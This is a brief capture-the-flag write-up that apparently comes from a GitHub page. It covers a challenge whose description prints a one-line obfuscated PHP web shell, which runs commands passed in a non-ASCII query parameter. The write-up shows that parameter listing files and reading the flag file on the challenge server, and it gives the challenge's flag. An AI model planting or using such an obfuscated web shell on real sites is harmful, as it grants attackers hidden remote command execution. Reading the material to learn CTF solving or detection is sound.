


#### Points: 60
#### Description: echo -ne '<?={${~\xa0\xb8\xba\xab}[\xa0]};' > shell.php
http://103.55.10.195:1337/shell.php 
---
#### _Write-up_

In this challenge I was given shell.php file. The information inside the file is as shown below.
There is a little bit complicated to solve this challenge. However, after trial and error, I get to enter the webserver. I use the parameter http://103.55.10.195:1337/shell.php?%a0=ls and there is two(2) file which is benderaaaaaa.txt and shell.php.

After that I try to cat the benderaaaaaa.txt file using parameter  http://103.55.10.195:1337/shell.php?%a0=cat%20benderaaaaaa.txt and I found the flag. 

#### The flag of this challenge is uniklctf20{abcdefg_G00dBy3}
